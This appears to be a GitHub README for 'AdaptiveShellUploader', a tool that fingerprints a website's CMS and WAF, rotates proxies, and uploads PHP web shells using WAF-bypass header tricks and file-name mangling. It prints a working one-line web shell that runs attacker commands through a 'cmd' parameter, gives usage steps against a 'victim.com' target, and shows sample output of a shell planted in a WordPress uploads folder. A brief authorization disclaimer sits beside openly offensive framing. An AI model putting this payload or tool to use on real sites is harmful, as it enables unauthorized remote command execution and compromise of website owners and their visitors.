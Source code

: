 
# AdaptiveShellUploader
**Upload your shell, bypass WAFs, and own the web — one upload at a time.**

This tool is crafted for cyber warriors who want more than just basic uploads. `AdaptiveShellUploader` is a powerful reconnaissance and web shell uploader that adapts based on the CMS detected, upload form structure, and WAF defense mechanisms.

### Features:
- **Smart Reconnaissance:** Detects CMS (WordPress, Joomla, Drupal, Magento, etc.), headers, WAF presence, and upload forms.
- **AI-style Logic:** Uses decision trees to pick the best attack path based on environment detection.
- **Proxy Support:** Automatically loads and rotates HTTP/HTTPS proxies from `proxies.txt`.
- **WAF Bypass Engine:** Detects WAF through header heuristics and uses header obfuscation + variant file uploads to sneak in payloads.
- **Adaptive Payloads:** Uploads PHP web shell variants with content-type and name mangling.
- **Deep OSINT Mode:** Automatically scans for interesting endpoints (`robots.txt`, `.env`, `.git`, etc.)
- **CMS-aware Exploitation:** Adjusts its upload approach depending on CMS.

---

### Payload (Web Shell):
```php
<?php echo "SHELL_OK"; system($_GET["cmd"]); ?>
```

---

### Requirements:
- Python 3.x
- `requests`
- `beautifulsoup4`

Install requirements:
```bash
pip install -r requirements.txt
```

---

### How to Use:
```bash
python Shell_uploader.py
```
When prompted, input the **full target URL**, like:
```
http://victim.com/
```

Make sure you have a `proxies.txt` file if you want to randomize your proxy usage.

---

### Example Output:
- Detected CMS: WordPress
- Upload form found in: /wp-admin/upload.php
- WAF Detected: Cloudflare
- Shell Uploaded: `http://victim.com/wp-content/uploads/shell.pHp`

---

### Notes:
- This script is part of the Cyber-Heroes arsenal.
- Built for educational and penetration testing purposes **only**.
- Make sure you have authorization before running it on any system.
- By default, it will look for the string `SHELL_OK` to verify successful uploads.

---

### Credits:
Made with chaos and caffeine by **Saldy aka Cyber-Heroes G4**  
"Built to bypass, born to break."

